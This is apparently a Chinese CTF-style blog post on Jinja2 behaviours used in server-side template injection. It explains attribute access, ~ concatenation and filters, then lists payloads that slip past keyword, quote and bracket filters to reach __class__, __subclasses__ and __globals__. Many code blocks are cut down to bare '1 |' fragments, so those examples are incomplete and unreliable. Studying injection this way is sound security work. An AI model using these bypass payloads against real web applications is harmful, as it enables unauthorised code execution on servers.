

之前写了一篇关于python ssti的文章,但在分析时过于肤浅地将重心放在python与flask上,从而完全忽视了对jinja2的深入探讨。实际上我们在flask中用{ {与{ %在进行执行python逃逸时并不是直接给python引擎处理,而是要先经过jinja2’渲染’一道.因此这是对之前不足的整理.

jinja2特性
变量属性
在python中,我们常常是通过.来获取变量的属性的.例如().__class__.
但jinja2给我们提供了另外两种思路：[]与|attr
1 | #[]用法 |
这里要值得注意的是纯python中.只有取对象属性的意思。但在jinja2下：`
xx.__class__会先检测x对象有没有名为__class__的属性，若没会继续检测xx对象有没有名为__class__的这一项元素。如果没有，返回一个未定义对象。
但xx['__class__']确是：
xx['__class__']会先检测x对象有没有名为__class__的这一项元素，若没会继续检测xx对象有没有名为__class__的这属性。如果没有，返回一个未定义对象。
而xx|attr('__class__')这个它只查找属性，如果没有返回一个未定义对象。
来举个栗子：
1 | #纯python交换行下 |
变量赋值
在jinji的渲染中，变量不能随意地被赋值。
变量赋值只能通过{ % set x=xxx % }来进行赋值，在{ { } }中只能使用变量而不能定义赋值变量。
字符串拼接
在纯python中我们习惯用+来拼接字符串。
但在jinja2中我们还可以用~来拼接字符串。是~会把所有的操作数转换为字符串，并且连接它们。因此要注意的是：
1。操作数本来就是字符串，~会像+一样拼接它们。
{ { "Hello" ~ "name" ~ "!" } } 会返回： Helloname!
2。若操作数是一个定义了且有值的变量名,~会用它的值来和其他字符串一起拼接。
Helloundefined! 会返回（假设 name 值为 ‘lexsd6’ ）： Hellolexsd6!
3。若操作数是一个定义了且为赋值或未定义的变量名,~会跳过ta用剩下的操作数来一起拼接。
{ { "Hello" ~ name ~ "!" } } 会返回（假设 name 未定义 ）： Hello!
4。若操作数是一个数字 or 元组 or 字典 or 列表 等常数 将直接转化为字符串来和其他操作数拼接。
{ { "Hello" ~ 1 ~ "!" } } 会返回： Hello1!
{ { "Hello" ~ (1,2) ~ "!" } } 会返回： Hello(1,2)!
{ { "Hello" ~ {1:2} ~ "!" } } 会返回： Hello{1,2}!
{ { "Hello" ~ [1,2] ~ "!" } } 会返回： Hello[1,2]!
字符串转码
字符转码是一个web模板常有的东西。但通常都是url编码的转化。
但在jinja2中，还可以自动将16进制，8进制，unicode编码的字符串转码。
1 | # \xXX |
过滤器机制
在jinji2中有一种独特的调用机制,这种机制本意是用来对{ {与{ %中的数据进行筛选或类型转化的. 过滤器通过|来调用它们.例如|attr()就是一个典型的过滤器.
|attr
之前已经说过，这是对 ‘对象’ 取属性的 过滤器。这里再强调下|attr只查找属性.
|float
若在|对对象是纯数字的字符串前将非浮点数型的数字字符则将其转化为浮点数.否则将括号类的字符转换为浮点型(若没有参数返回0.0).同时|符合要求时括号可以简写.
1 | '1'|float() # 1.0 |
|format
纯python中format在jinja中同样可以但jinjia提供格外的|format方法。
1 | {{ "%s - %s"|format("lexs", "d6!") }} #lexs-d6! |
|join
返回一个字符串，该字符串是序列中字符串的串联。元素之间的分隔符默认为空字符串，可以使用可选参数定义字符串。(ps:如果对象是字典，则只拼接 键 )
1 | {{[1,'a',b]|join}} #1a |
|last
取一个字符串，元组，列表的最后一项。（高版本的字典不行）
1 | {{'1234'|last()}}#4 |
|list
将值转换为列表.如果是字符串，则返回的列表将是字符列表。
1 | 1,%27a%27,b|list #(1, 'a', []) |
|lower
将大写字母转换为小写字母.
1 | {{'ＣＬＡＳＳ'|lower()}} #ｃｌａｓｓ |
|string
如果对象不是字符串则转换为字符串.
1 | {{1,2,3,4|string}} # (1, 2, 3, '4') |
|replace
对对象中出现的字符串进行替代。
1 | {{'fl4g'|replace('4','a')}} #flag |
内置函数
在jinja的{ {与{ %中虽然环境中其实也有全局函数存在的。
如range，lipsum，dict，cycler，reset，next，current，joiner。
这些函数大多用法和纯python差不多，而且是以类来定义，在ssti中大多都是xxx.__class__工具人。但要提下dict。
dict
在jinja2中 {‘foo’ : ‘bar’} 与 dict(foo=bar) 等价。(凭空生字符串)
1 | {{dict(lexs=0)}} # {'lexs': 0} |
bypass
参数关键词字符过滤
字符拼接
利用+与~来进行字符串拼接操作。
1 | '__clas'+'s__' |
字符替换
用|replace来替换关键字
1 | {{'fl4g'|replace('4','a')}} #flag |
进行decode解编码绕过
1 | #base64 decode解编码 |
利用|string转化字符拼接绕过
利用|string会对象转为字符串的特性。将一些内置对象转为字符串来拼接绕过。
1 | {{(x|select|string)[24]~(x|select|string)[24]~(x|select|string)[15]~(x|select|string)[20]~(x|select|string)[6]~(x|select|string)[18]~(x|select|string)[18]~(x|select|string)[24]~(x|select|string)[24]}}#__class__ |
利用|join来提取
1 | {{ ['f','l','a','g']|join() }} |
利用request.args，request.values进行传参
1 | {{""[request.args.class][request.args.x1][request.args.x2][request.args.x3]()[40]}}?class=__class__&x1=__base__&x2=__base__&x3=__subclasses__ |
利用模板渲染编码绕过：（部分新版本）
1 | #16进制（\xXX）绕过。 |
引号被过滤
dict 与|jion配合
利用在jinja中dict会将键名转化字符串，再利用|jion作用时只拼接键值的特性绕过。（ps：注意键值唯一！）
1 | {{(dict(c=1,l=1,a=1,s=1)|join)~(dict(s=1)|join)}}#class |
dict 与|list 、|last配合
利用dict 构照字典再list转列表提取key值再用last取之。
1 | {{dict(a=1)|list|last}} #a |
|jion与字符串切片提取键值
1 | (''.__class__.__base__.__subclasses__()[91].__init__.__globals__|join)[62:74] ## #|jion 提取 __builtins__ |
|list提取字典键值
1 | # |list 的作用是字典时会只将字典键值作为转为字符串列表 |
string 转化出字符拼接
|string将非字符转化为字符的功能很强大,也可以用转化对象来拼字符.
[]被过滤
取属性
用|attr或 .来代替。
对字典操作
pop方法(会删除改变字典)
1 | {{{'a':1,'b':2}.pop('b')}} #2 |
get方法
1 | {{{'a':1,'b':2}.get('b')}} #2 |
setdefault方法(注意若字典里原本不纯在该键值会添加键值)
1 | {{{'a':1,'b':2}.setdefault('b')}} #2 |
__getitem__
1 | {{{'a':1,'b':2}.__getitem__('b')}} #2 |
对列表操作
pop函数
1 | {{[1,2,3].pop(1)}} #2 |
__getitem__
1 | {{[1,2,3].__getitem__(1)}}#2 |
last
1 | {{[1,2,3]|last()}}#3 |